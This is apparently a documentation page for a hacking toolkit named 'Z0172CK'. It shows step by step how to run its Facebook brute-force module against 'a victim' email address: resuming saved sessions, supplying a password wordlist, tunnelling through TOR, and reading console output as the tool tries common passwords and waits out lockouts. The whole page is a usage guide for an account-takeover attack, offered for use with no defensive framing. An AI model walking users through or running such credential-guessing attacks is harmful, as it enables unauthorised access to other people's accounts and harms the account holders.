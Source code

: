 ```bash
Z0172CK (BruteForce) > 1

[01] Start Brute Force
[02] Continue Brute Force

[99] Back

 Z0172CK (BruteForce/Facebook) > 
```

in the facebook part we have two options 1. start a new attack 2. continue with an attack

If we select the first option to start a new attack, it will ask us for an email and a list of passwords

at any time we can give ctrl + c to save our attack and continue later with the second option

{% hint style="info" %}
if we get an error of this type " Please, check your TOR Connection! Just type" tor "or" service tor start " " just go back to the facebook option
{% endhint %}

```bash
Z0172CK (BruteForce/Facebook) > 1
Email account:
```

we put the mail of a victim

```bash
Password List (Hit Enter to default list):
```

we put the path of the list of our passwords or we give enter to use the one that comes by default

```bash
Wordlist: modules/FB-BruteForce/passwords.lst (39331)
[*] Press Ctrl + C to stop or save session
Trying pass (1/39331): "password"
Trying pass (2/39331): "12345678"
Trying pass (3/39331): "123456789"
Trying pass (4/39331): "iam123"
Trying pass (5/39331): "baseball"
Trying pass (6/39331): "football"
Trying pass (7/39331): "qwertyuiop"
Trying pass (8/39331): "1234567890"
Trying pass (9/39331): "superman"
Trying pass (10/39331): "1qaz2wsx"
Trying pass (11/39331): "trustno1"
Trying pass (12/39331): "jennifer"
Trying pass (13/39331): "sunshine"
Trying pass (14/39331): "iloveyou"
Trying pass (15/39331): "starwars"
Trying pass (16/39331): "computer"
Trying pass (17/39331): "michelle"
Trying pass (18/39331): "11111111"
Trying pass (19/39331): "princess"
Trying pass (20/39331): "987654321"
[*] Waiting 1 hour, to return at: 
```
